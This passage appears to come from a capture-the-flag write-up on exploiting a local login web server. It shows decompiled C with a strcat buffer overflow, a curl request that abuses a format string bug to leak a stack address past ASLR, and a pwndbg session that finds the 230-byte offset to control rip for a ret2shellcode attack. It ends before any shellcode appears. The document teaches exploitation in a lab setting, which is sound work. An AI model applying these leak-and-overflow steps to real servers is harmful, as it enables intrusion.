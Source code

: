 Once these values are gathered, the `verify_account` function is called. This function checks that we have the correct input by concatenating our `username` and `password` into a `208-byte` buffer. However, since `username` can hold `50` bytes and `password` can hold `300` bytes, there is a `buffer overflow` :
```c
undefined8 verify_account(char *param_1,char *param_2)

{
  size_t sVar1;
  undefined8 uVar2;
  uint local_128 [16];
  char local_e8 [208];
  char *local_18;
  int local_c;
  
  ...

  local_18 = "IloveMyServer";
  strcpy(local_e8,param_1);
  strcat(local_e8,param_2);//buffer overflow
  sVar1 = strlen(local_e8);
  if (sVar1 == 0xd) {
    for (local_c = 0; local_c < 0xd; local_c = local_c + 1) {
      if (((int)local_e8[local_c] ^ local_128[local_c]) != (int)local_18[local_c]) {
        return 0xffffffff;
      }
    }
    uVar2 = 0;
  }
  else {
    uVar2 = 0xffffffff;
  }
  return uVar2;
}
```
This leads to a `ret2shellcode` exploit. However, there's a problem: ASLR is enabled, so we need a leak.
By examining the `post_response` function, we notice that if the login credentials are incorrect, it does a `snprintf` of our username into the page returned to us. Since there are no format arguments, we have a `format string` vulnerability that allows us to leak an address from the stack :
```bash
curl -X POST -d "user=%25p&password=admin" http://localhost:9999/login
<!DOCTYPE html><html lang="fr"><body><div><h1>Erreur de connexion pour <span style="color:red;">0x71473c01a5a4</span></h1><p>Invalide login/password</p></div></body></html>
```
Now, we first determine the offset to control `rip` :
```bash
pwndbg> b *verify_account+335
Breakpoint 1 at 0x1995
pwndbg> run
...
POST /login ok Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj
...
RSP  0x7ffff75ff508 ◂— push 0x38684137 /* 0x4138684137684136; '6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj' */
 RIP  0x555555555995 (verify_account+335) ◂— ret 
────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────
 ► 0x555555555995 <verify_account+335>    ret                                <0x4138684137684136>
```
We can see that with `230` bytes, we control `rip`.